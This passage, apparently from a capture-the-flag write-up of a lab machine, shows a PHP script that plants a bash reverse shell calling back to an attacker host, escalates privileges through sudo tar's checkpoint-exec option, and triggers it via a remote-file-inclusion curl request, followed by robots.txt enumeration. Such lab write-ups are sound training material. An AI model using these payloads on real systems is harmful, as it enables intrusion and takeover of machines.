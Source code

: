 ## Beyond Root

### Shortcut Shell as onuma

In case I ever wanted to come back to this box and pick up with a shell as onuma, this alternative php script will provide a reverse shell as onuma.

```

root@kali# cat awp-load.php
<?php
system("echo '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.5/8082 0>&1' > /dev/shm/.a.sh");
system("cd / && sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=\"bash /dev/shm/.a.sh\"");
?>

```

The script simply has php system commands take the steps shown in [privesc](#privesc-www-data--onuma) above, writing a shell script, putting it into a tar archive, and then using `sudo tar` to run it.

So to make it work, just start `python3 -m http.server 80`, `nc` on 8082, and run `curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.15.99/a`.

### Rabbit Hole: Monstra CMS

Another super trollish move by the author is adding a `robot.txt` file with multiple interesting sites, one of which exists, and is has RCE vulnerabilities against it, and yet, none of them can work. Here’s how I explored it anyway, and why the exploits don’t work.

#### robots.txt

`nmap` calls out the presence of a `robots.txt` file with several interesting looking sites:

```

User-agent: *
Disallow: /webservices/tar/tar/source/
Disallow: /webservices/monstra-3.0.4/
Disallow: /webservices/easy-file-uploader/
Disallow: /webservices/developmental/
Disallow: /webservices/phpmyadmin/

```

I’ll use a quick bash loop to grab the disallow entries, get the url paths, and loop over them, for each echoing a header line, and then issuing a curl to get them. Of the five urls, only one doesn’t return a 404 not found error:

```

root@kali# curl -s 10.10.10.88/robots.txt | tail -6 | head -5 | cut -d' ' -f2 | while read p; do echo ===${p}===; curl -s 10.10.10.88${p} | head; echo; done
===/webservices/tar/tar/source/===
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /webservices/tar/tar/source/ was not found on this server.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.88 Port 80</address>
</body></html>

===/webservices/monstra-3.0.4/===
```